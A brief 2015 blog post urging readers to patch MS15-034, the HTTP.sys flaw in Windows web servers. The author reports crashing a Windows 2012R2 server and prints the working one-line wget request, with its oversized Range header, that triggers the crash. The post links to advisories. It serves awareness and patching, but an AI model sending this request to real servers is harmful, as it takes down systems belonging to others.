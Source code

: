 ```yaml
---
comments: true
layout: post
title: MS15-034 Patch NOW!
date: '2015-04-20T13:43:00.000+01:00'
tags:
- Security
---
```

So I finally had a chance to test this little doozy of an issue this lunchtime. Crash a webserver by issuing a simple wget command?

![](/images/MS15-034.JPG) 

Yep, I can confirm that this is a good 'un against a Windows 2012R2 server as you can see in my screenshot above.  

`wget --header="Range: bytes=18-18446744073709551615" http://[ip address]/`

Find out more here from the SANS Internet Storm Center here:  
[SANS Internet Storm Center](https://isc.sans.edu/forums/diary/MS15034+HTTPsys+IIS+DoS+And+Possible+Remote+Code+Execution+PATCH+NOW/19583/)  

And here:  
<iframe allowfullscreen="" frameborder="0" height="315" src="https://www.youtube.com/embed/EZ0wo5UDkig" width="560"></iframe>  

Microsoft MS15-034 Security Bulletin:  
[https://technet.microsoft.com/en-us/library/security/ms15-034.aspx](https://technet.microsoft.com/en-us/library/security/ms15-034.aspx)  

-Chris

